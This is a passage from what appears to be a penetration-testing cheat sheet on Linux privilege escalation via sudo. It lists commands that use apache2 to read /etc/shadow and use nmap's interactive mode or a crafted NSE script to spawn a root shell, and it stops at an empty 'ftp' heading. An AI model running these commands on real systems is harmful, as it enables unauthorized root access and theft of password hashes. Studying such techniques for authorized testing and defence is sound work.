 ### apache2

We can use apache2 to read files and crack hashes.

**Victim**

```
sudo apache2 -f /etc/shadow
```

<figure><img src="../../.gitbook/assets/image (12) (1) (4).png" alt=""><figcaption></figcaption></figure>

### **nmap**

#### **Option 1**

**Victim**

```
sudo nmap --interactive
nmap> !sh
```

<figure><img src="../../.gitbook/assets/image (21) (4) (1).png" alt=""><figcaption></figcaption></figure>

#### **Option 2**

**Victim**

```
echo "os.execute('/bin/sh')" > /tmp/shell.nse && sudo nmap --script=/tmp/shell.nse
```

<figure><img src="../../.gitbook/assets/image (8) (1) (1) (2).png" alt=""><figcaption></figcaption></figure>

### ftp

**Victim**
